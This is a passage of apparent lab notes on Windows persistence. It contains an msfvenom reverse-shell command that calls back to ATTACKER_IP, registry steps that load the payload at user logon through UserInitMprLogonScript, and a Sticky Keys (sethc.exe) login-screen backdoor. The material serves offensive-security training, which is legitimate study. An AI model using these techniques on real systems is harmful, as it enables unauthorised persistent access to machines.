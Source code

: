 Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe`

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use C:\Windows:

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

### 21.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

-------------------------------------------------------

## Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

We will look at two methods that rely on accessibility features to this end.

### Sticky Keys

When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, `if sticky keys are active`, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL` + `ALT` + `DEL` combination.

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:

### 22.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

